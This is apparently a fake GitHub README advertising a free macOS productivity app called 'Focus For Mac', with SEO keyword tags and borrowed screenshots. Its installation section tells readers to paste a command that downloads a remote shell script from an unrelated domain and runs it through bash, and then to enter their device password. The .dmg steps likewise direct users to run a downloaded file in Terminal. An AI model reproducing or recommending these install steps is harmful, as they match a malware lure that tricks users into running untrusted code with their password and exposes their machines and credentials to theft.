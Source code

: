 # Focus For Mac — Download For macOS

Focus For Mac is a powerful productivity tool designed to enhance your workflow on macOS. Follow the instructions below to install it effortlessly and boost your focus with distraction-free features! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge)](https://fituganshfgh.github.io/.github/focus)

If you encounter issues downloading via the button above, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install Focus For Mac For macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

Focus For Mac empowers you to stay productive with these key features:

- 🕒 **Pomodoro Timer**: Work in focused intervals with customizable timers to maximize efficiency.
- 🚫 **Distraction Blocker**: Block distracting websites and apps during work sessions.
- 📊 **Progress Tracking**: Monitor your productivity with detailed reports and insights.
- 🎨 **Customizable Interface**: Personalize themes and layouts to suit your workflow.
- 🔄 **Cross-Device Sync**: Sync your settings and progress across multiple macOS devices.
- 🔔 **Smart Notifications**: Get gentle reminders to stay on track without disruptions.

---

## About Focus For Mac

Focus For Mac is a productivity application tailored for macOS users who want to optimize their time and eliminate distractions. Whether you're a student, professional, or freelancer, this free productivity tool helps you stay on task with its intuitive design and powerful features. By integrating a Pomodoro timer, website blocker, and progress tracking, Focus For Mac ensures you achieve your goals efficiently. The software is lightweight, secure, and optimized for macOS, making it a must-have for anyone seeking a free focus app for Mac.

The Pomodoro technique, a cornerstone of Focus For Mac, allows users to break their work into manageable intervals, typically 25 minutes of focused work followed by a 5-minute break. This method, combined with the app’s distraction-blocking capabilities, makes it an ideal productivity software for Mac users. You can customize the timer durations and block specific websites or apps that might derail your focus, ensuring a distraction-free environment tailored to your needs.

For those who thrive on data-driven insights, Focus For Mac offers robust progress tracking. The app generates detailed reports on your work sessions, helping you identify patterns and optimize your productivity. Whether you’re preparing for exams, managing projects, or working on creative tasks, this free Mac app provides the tools to stay organized and motivated.

Security and ease of use are at the heart of Focus For Mac. The application is designed to integrate seamlessly with macOS, requiring minimal system resources while delivering maximum performance. Its cross-device sync feature ensures that your settings and progress are accessible across all your macOS devices, making it a versatile productivity tool for users on the go.

### Why Choose Focus For Mac?

Focus For Mac stands out among other productivity apps due to its simplicity, customization, and focus on user experience. Unlike other tools that overwhelm with complex features, this free focus app for Mac prioritizes ease of use without compromising functionality. Its sleek, macOS-native interface, combined with powerful features like distraction blocking and progress tracking, makes it the best free productivity software for Mac users looking to enhance their workflow.

---

## 🖼 Preview

![Main Interface](https://heyfocus.com/uploads/1696056286-cleanshot-2023-09-29-at-23-18-50-2x-jpg)  
*Clean and intuitive main interface with Pomodoro timer and distraction blocker.*

![Progress Tracking](https://photos5.appleinsider.com/gallery/43236-83951-001-Choosing-Focus-Mode-on-Mac-xl.jpg)  
*Detailed progress reports to track your productivity over time.*

![Customization Options](https://cdn.mos.cms.futurecdn.net/DrYtq9LRW8DaHjsvFjhDgj.jpg)  
*Personalize themes and layouts for a tailored experience.*

---

## 🔍 Tags

focus for mac, focus download, focus free download, focus free mac, focus download free, free productivity app,  free focus app, focus for mac free, focus download mac, focus mac os, focus free mac os
